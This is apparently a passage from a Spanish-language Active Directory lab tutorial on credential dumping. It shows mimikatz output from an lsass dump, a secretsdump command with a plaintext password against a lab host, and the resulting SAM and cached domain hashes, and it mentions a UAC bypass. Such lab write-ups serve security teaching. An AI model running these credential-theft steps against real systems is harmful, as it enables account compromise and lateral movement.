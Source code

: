 ```
        cloudap :

Authentication Id : 0 ; 2351163 (00000000:0023e03b)
Session           : Interactive from 2
User Name         : empleado1
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:39:14
SID               : S-1-5-21-3352250647-938130414-2449934813-1104
        msv :
         [00000003] Primary
         * Username : empleado1
         * Domain   : CORP
         * NTLM     : 1791df33b45987df23e4fe6c57ea6de7
         * SHA1     : 6ef021db9a1924563f77a5d9ebf3e3629de98851
         * DPAPI    : a5798e4a9a06f32761063a2a093f0074
        tspkg :
        wdigest :
         * Username : empleado1
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : empleado1
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
.......................<RESTO_DEL_CODIGO>.......................................
```

Y vemos que nos esta volcando la informacion, pero del fichero con `mimikatz`.

Ahora de forma remota lo que vamos hacer es `volcar` la informacion del `lsass.DMP` desde el `kali` hasta el `Windows`, es importante saber que tenemos que tener un usuario de dominio con privilegios de `administrador` locales para poder realizar esto.

Pero cuando hagamos esta tecnica, nos va a pedir la verificacion del `UAC` por lo que tendremos que realizar un `UAC Bypass` para que podamos obtener la informacion.

```shell
impacket-secretsdump empleado1:Passw0rd2@192.168.5.208
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-19 08:39:14)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-19 08:52:13)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
```